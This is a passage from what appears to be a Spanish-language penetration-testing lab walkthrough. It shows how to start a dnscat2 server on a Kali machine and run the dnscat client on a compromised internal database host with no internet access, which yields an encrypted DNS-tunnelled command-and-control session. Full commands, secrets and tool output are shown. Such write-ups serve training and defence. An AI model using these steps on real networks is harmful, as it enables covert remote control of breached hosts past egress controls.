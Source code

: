 ```
  ./dnscat --secret=c6cbfa40606776bf86bf439e5eb5b8e7 feline.corp

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=c6cbfa40606776bf86bf439e5eb5b8e7

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.

dnscat2>
```

El output de la herramienta nos señala que hay un servidor DNS escuchando en todas las interfaces en 53/udp.

Ahora, en PGDATABASE01; la máquina comprometida en el interior de la red que no tiene conexión con la WAN, seteamos el cliente (que ha sido transferido a la máquina previamente). Ejecutamos el cliente pasándole como argumento el dominio referido en el servidor:

```
database_admin@pgdatabase01:~$ cd dnscat/
database_admin@pgdatabase01:~/dnscat$ ./dnscat feline.corp
Creating DNS driver:
 domain = feline.corp
 host   = 0.0.0.0
 port   = 53
 type   = TXT,CNAME,MX
 server = 127.0.0.53

Encrypted session established! For added security, please verify the server also displays this string:

Annoy Mona Spiced Outran Stump Visas 

Session established!
```

El cliente nos informa de que se ha establecido una conexión con éxito. Podemos volver a nuestro servidor para verificar las conexiones

```
kali@felineauthority:~$ dnscat2-server feline.corp
[sudo] password for kali: 

New window created: 0
New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 0.0.0.0:53
[domains = feline.corp]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=7a87a5d0a8480b080896606df6b63944 feline.corp

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=7a87a5d0a8480b080896606df6b63944

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
```